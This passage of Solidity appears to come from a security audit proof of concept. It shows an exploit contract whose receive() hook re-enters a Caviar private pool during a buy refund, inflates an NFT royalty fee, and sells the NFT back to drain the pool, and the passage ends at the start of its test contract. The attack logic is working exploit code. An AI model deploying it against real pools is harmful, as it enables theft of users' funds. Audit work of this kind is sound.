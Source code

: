 ```solidity
        (bool success, ) = payable(owner()).call{value: address(this).balance}(
            ""
        );

        // Ensure the call was successful.
        require(success);
    }

    /**
     * @notice Main logic for the exploit.
     */
    receive() external payable {
        // Do not allow arbitrary calls.
        require(msg.sender == address(vulnerablePrivatePool));

        // Return if the call comes from PrivatePool.sell().
        if (f2) return;

        // We should enter the next block only if the call
        // comes from the ETH excess refund in PrivatePool.buy().
        if (!f1) {
            // Do not enter again for this iteration.
            f1 = true;

            // Cache the original fee in order to reset it later.
            (, originalFee) = nft.royaltyInfo(tokenId, 10_000);

            // Increase the royalty fee significantly to get back the price we paid for buying it.
            nft.setTokenRoyalty(tokenId, address(this), 10_000);

            // Return to PrivatePool.buy().
            return;
        }

        // Reset the fee.
        nft.setTokenRoyalty(tokenId, address(this), uint96(originalFee));

        // Set the second flag used to not execute any logic if the call comes from PrivatePool.sell().
        f2 = true;

        // Approve the bought NFT to the Caviar private pool.
        nft.approve(address(vulnerablePrivatePool), tokenId);

        // Sell the bought NFT in order to extract base tokens from the vulnerable private pool.
        vulnerablePrivatePool.sell(
            new uint256[](1),
            new uint256[](0),
            PrivatePool.MerkleMultiProof(new bytes32[](0), new bool[](0)),
            new IStolenNftOracle.Message[](0)
        );

        // Reset state variables so attack can be performed one more iteration.
        delete originalFee;
        delete f1;
        delete f2;
    }
}

contract MaliciousRoyaltyReceiverDrainPrivatePoolTest is Fixture {
    /// @notice The NFT collection contract that is used by the private pool.
    ERC721RoyaltyCollection public nft;

```